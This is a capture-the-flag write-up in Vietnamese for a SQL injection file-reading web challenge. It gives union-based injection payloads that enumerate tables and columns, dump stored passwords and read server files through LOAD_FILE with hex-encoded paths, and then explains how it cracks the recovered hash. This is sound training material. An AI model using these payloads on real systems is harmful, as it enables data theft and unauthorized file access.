```diff
@@ Web-server Challenge @@
```

## SQL injection - File reading [40 Points]

* Challenge cung cấp cho ta một trang đăng nhập như sau

  

* Thử các payload SQLi vào phần login thì thấy không có khả năng, ta thử chuyển sang tab Member

  

* Chú ý thì ta thấy nó nhận tham số id để tìm kiếm user, vì khi thay đổi giá trị id, nó hiện ra response như bên dưới

  

* Giờ ở đây ta có thể thử Union Based/Blind SQLi/Error Based/Time Based SQLi. Thử từ cái dễ nhất là Union Based, ta có ngay kết quả như sau

  

* Thử tăng số cột lên thì ta biết table đang có 4 cột

  ```2 union select 1,2,3,4 --```

  

* Sửa lại payload để lấy table name ta có table name là member

  ```2 union select 1,2,3, (select group_concat(table_name) from information_schema.tables) --```

  

* Sau đó lấy Column name

  ```2 union select 1,2,3, (select group_concat(column_name) from information_schema.columns) --```

  

* Và có được password

  ```2 union select 1,2,3, (select group_concat(member_password) from member) --```

  

* Nhưng chưa hết, decode chuỗi base64 này ta vẫn không có được password vì nó không phải plain-text. Tới đây, theo như tên của challenge thì ta buộc phải đọc file để biết server đang xử lý chỗ này như thế nào. Thử search read file mysql thì ta có hàm LOAD_FILE()

  

* Vì server filter cái dấu nháy đơn và nháy kép, nên ta sẽ truyền bằng mã hex, tên file muốn đọc là index.php tương đương với hex là ```0x2e2f696e6465782e706870```.Thử đọc file ta có kết quả sau

  ```2 union select 1,2, 3,LOAD_FILE(0x2f6368616c6c656e67652f7765622d736572766575722f636833312f696e6465782e706870)--```

  

* Ta thấy server nhận password xong hash nó bằng sha1, sau đó so sánh với kết quả phép xor (key, base64decode(member_password)). Vậy trước tiên ta xor key và kết quả decode của cái chuỗi member_password lúc nãy để lấy sha1(pass)

  

* Tìm tool giải mã sha1 trên ta có pass để đăng nhập cũng như vượt qua challenge

  